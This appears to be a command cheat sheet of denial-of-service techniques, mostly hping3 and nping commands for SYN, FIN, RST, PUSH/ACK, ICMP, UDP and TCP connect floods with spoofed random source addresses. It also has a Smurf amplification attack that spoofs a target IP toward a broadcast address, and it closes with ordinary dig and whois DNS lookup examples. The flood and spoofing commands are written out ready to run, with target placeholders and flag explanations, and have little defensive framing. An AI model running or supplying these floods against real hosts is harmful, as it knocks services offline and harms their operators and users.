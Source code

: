 hping3 --traceroute -v -1 www.wisetut.com #the traceroute feature which is used to identify the intermediate hosts between source and destination

Advanced SYN flood with random source IP, different data size, and window size
hping3 -c 20000 -d 120 -S -w 64 -p TARGET_PORT --flood --rand-source TARGET_SITE
–flood: sent packets as fast as possible
–rand-source: random source address
-c –count: packet count
-d –data: data size
-S –syn: set SYN flag
-w –win: winsize (default 64)
-p –destport: destination port (default 0)
$hping3 -S --flood -V -p TARGET_PORT TARGET_SITE


FIN floods
$hping3 --flood --rand-source -F -p TARGET_PORT TARGET_IP
TCP RST Flood
$hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
PUSH and ACK Flood
$hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
ICMP flood
$hping3 --flood --rand-source -1 -p TARGET_PORT TARGET_IP
UDP Flood
–flood: sent packets as fast as possible
–rand-source: random source address
–udp: UDP mode
-p –destport: destination port (default 0)
$hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
SYN flood with spoofed IP – DoS using HPING3
$hping3 -S -P -U --flood -V --rand-source www.hping3testsite.com
TCP connect flood – DoS using NPING
$nping --tcp-connect -rate=90000 -c 900000 -q www.hping3testsite.com    
    
    
use routers broadcast IP address feature to send messages to multiple IP addresses 
use connection-less protocols that do not validate source IP addresses.
amplification techniques;Smurf attack(ICMP amplification), DNS amplification, and Fraggle attack(UDP amplification)
    

Smurf Attack
This command sends ping requests to broadcast IP(10.10.15.255) by spoofing target IP(10.10.15.152). 
All running hosts in this network reply to the target.
$hping3 --icmp --spoof TARGET_IP BROADCAST_IP
$hping3 --icmp --spoof 10.10.15.152 10.10.15.255

DNS lookups
$ whois www.alibaba.com

dig alibaba.com @8.8.8.8 #specify name server 8.8.8.8
dig @8.8.8.8 +short NS domain.com
dig www.alibaba.com ANY +noall +answer
#Find Out TTL Value Using dig
dig +nocmd +noall +answer a www.alibaba.com
#Find Domain SOA Record
$ dig +nssearch www.alibaba.com
#Display All Records
$ dig +noall +answer www.alibaba.com any
#Get Only Short Answer
$ dig +short www.alibaba.com
#Trace Domain Delegation Path
$ dig +trace www.alibaba.com
$ dig -x 217.168.240.132
$ dig +noall +answer -x 217.168.240.132
$ dig -x 193.140.80.208 +short 
$ dig -x 193.140.80.208 +trace
check if your mail servers direct correctly